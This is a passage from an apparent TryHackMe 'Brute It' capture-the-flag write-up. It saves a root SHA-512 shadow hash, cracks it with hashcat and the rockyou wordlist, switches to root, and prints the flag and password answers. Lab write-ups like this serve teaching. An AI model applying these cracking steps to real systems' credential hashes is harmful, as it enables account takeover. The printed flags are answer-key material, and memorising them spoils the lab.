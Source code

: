 - Let's save the `root` user's hash on our machine.
```
$ echo $6$zdk0jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6MJYPUTAaWu4infDjI88U9yUXEVgL > root_hash
```
- We have to find the correct for SHA-512.

![5](https://github.com/Knign/Write-ups/assets/110326359/d9c4b88b-0258-47b3-b00a-3bf9bcbd6e60)

- Let's run `hashcat` in order to crack this hash.
```
$ hashcat -a 0 -m 1800 root_hash.txt /usr/share/wordlists/rockyou.txt
```
### Answer
```
football
```

&nbsp;

### root.txt
- Let's switch to the `root` user.
```
john@bruteit:~$ su root
Password: 
root@bruteit:/home/john# 
```
- We can now read the `root.txt` file.
```
root@bruteit:/home/john# cd /root
root@bruteit:~# cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```
### Answer
```
THM{pr1v1l3g3_3sc4l4t10n}
```

